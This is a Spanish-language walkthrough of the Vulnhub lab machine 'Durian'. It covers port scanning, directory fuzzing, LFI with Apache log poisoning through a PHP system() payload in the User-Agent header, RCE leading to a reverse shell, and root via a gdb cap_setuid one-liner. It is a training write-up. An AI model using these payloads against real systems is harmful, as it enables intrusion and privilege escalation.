 ```yaml
---
layout: single
title: Durian - Vulnhub
date: 25/10/2023
classes: wide
header:
  teaser:

tags:
  - LFI > RCE - Abusing /proc/self/fd/X + Log Poisoning
  - Abusing capabilities (cap_setuid+ep on gdb binary)
  - Web Enumeration
  - fácil
  - linux
---
```


Para poder vulnerar esta máquina primero debemos hacer una enumeración web, en la cual obtendremos la dirección de un recurso PHP, del cual nos podemos aprovechar para poder llevar a cabo el LFI, a través de ahí contaminar el log de acceso de apache para poder ejecutar nuestro código malicioso PHP y convertirlo en un RCE, entablandonos una reverse shell para posterior a ello escalar privilegios,.


# PortScan

```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web

![](/assets/images/durian/Pasted image 20231025182531.png)

# Fuzzing de Sitio Web.

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![](/assets/images/durian/Pasted image 20231025182939.png)

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![](/assets/images/durian/Pasted image 20231025184632.png)
Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![](/assets/images/durian/Pasted image 20231025185034.png)

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![](/assets/images/durian/Pasted image 20231025185353.png)

Para controlar desde la URL la ejecución de comando, como podemos ver:

![](/assets/images/durian/Pasted image 20231025185808.png]])
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![](/assets/images/durian/Pasted image 20231025195554.png)





